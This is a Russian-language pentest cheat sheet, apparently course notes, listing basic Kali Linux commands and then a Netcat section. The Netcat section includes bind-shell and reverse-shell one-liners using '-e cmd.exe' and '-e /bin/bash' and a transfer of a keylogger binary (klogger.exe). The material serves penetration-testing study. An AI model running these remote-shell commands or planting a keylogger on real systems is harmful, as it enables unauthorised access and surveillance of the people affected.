 # **CB_PENTEST**

## Оглавление
### [01. Основы Kali Linux](#01-основы-kali-linux)
### [02. Прочие утилиты](#02-прочие-утилиты-1)


## **01. Основы Kali Linux**

### **01.01. Освоение Kali Linux (установка, меню, sudo, документация, смена пароля)**

```
# смена пароля
passwd

# узнать имя пользователя
whoami
```

### **01.02. Освоение Kali Linux (man-страницы, apropos, ls, cd, pwd, mkdir, find, locate и which)**

```
# мануал команды ls
man ls

# поиск описания мануалов (man -k)
apropos

# вывод текущей директории
pwd

# перемещение по директории
cd

# создание директории
mkdir

# поиск файлов в каталогах, указанных в переменной окружения $PATH
which

# поиск во встроенной бд locate.db
locate

# рекурсивный поиск с регулярными выражениями
find
```

### **01.03. Управление службами в Kali Linux**

```
# управление службами
systemctl

# информация сетевых сокетов
ss
```

### **01.04. Поиск, установка и удаление инструментов**

```
# обновление информации о пакетах
apt update

# обновление системных пакетов
apt upgrade

# поиск информации в бд пакетов (в названии и описании пакетов)
apt-cache search

# описание пакета
apt show

# установка пакетов
apt install

# локальная установка пакетов
dpkg
```

### **01.05. Потоки данных, передача и перенаправление**

```
# перенаправление вывода в файл
echo "test" > test1.txt

# перенаправление в существующий файл
echo "123456" >> test1.txt

# перенаправление данных из файла
wc -m < test1.txt

# перенаправление сообщений об ошибках (STDERR)
ls ./test 2>error.txt

# перенаправление STDERR в STDOUT
2>&1
```

### **01.06. Поиск и манипуляции с текстом**

```
# поиск текста с регулярными выражениями
grep

# редактор потоков в реальном времени
sed

# выделение фрагмента текста из строки и вывода его на стандартный вывод
cut

# извлечение данных и составление отчетов
awk
```

### **01.07. Редактирование и сравнение файлов**

```
# редактирование файлов
nano
vi

# сравнение файлов
comm
diff
vimdiff
```

### **01.08. Управление процессами**

```
# возобновить выполнение в фоновом режиме
bg

# выводить список заданий, выполняемых в текущем терминальном сеансе
jobs

# вернуть задание на передний план
fg

# мониторинг процессов
ps aux

# завершение процесса PID
kill

# завершение процесса NAME
pkill
```

### **01.09. Мониторинг. Настройка среды. Загрузка файлов**

```
# отслеживание  записей в журнале по мере их записи
tail

# запуск заданной команды через регулярные промежутки времени
watch

# запуск другой команды с ограничением по времени
timeout

# загрузка файлов с помощью протоколов HTTP/HTTPS и FTP
wget

# инструмент для передачи данных на сервер или с сервера с использованием множества протоколов IMAP/S, POP3/S, SCP, SFTP, SMB/S, SMTP/S, TELNET, TFTP
curl

# ускоритель загрузки, который передает файл с сервера FTP или HTTP через несколько соединений
axel

# псевдоним — это заданная строка, которая заменяет имя команды
alias

# настройка bash
nano ~/.bashrc
```

## **02. Прочие утилиты**

### **01.02. Netcat**

```
# проверка портов
nc -nv 192.168.0.178 80

# прослушивание портов
 nc -nlvp 4444

# прием и передача файлов
nc -nlvp 4444 > incoming.exe
nc -nv 192.168.0.178 4444 < /usr/share/windowsresources/binaries/klogger.exe

# Netcat Bind Shell
nc -nlvp 4444 -e cmd.exe
nc -nv 192.168.0.178 4444

# Netcat Reverse Shell
nc -nlvp 4444
nc -nv 192.168.0.178 4444 -e /bin/bash



```
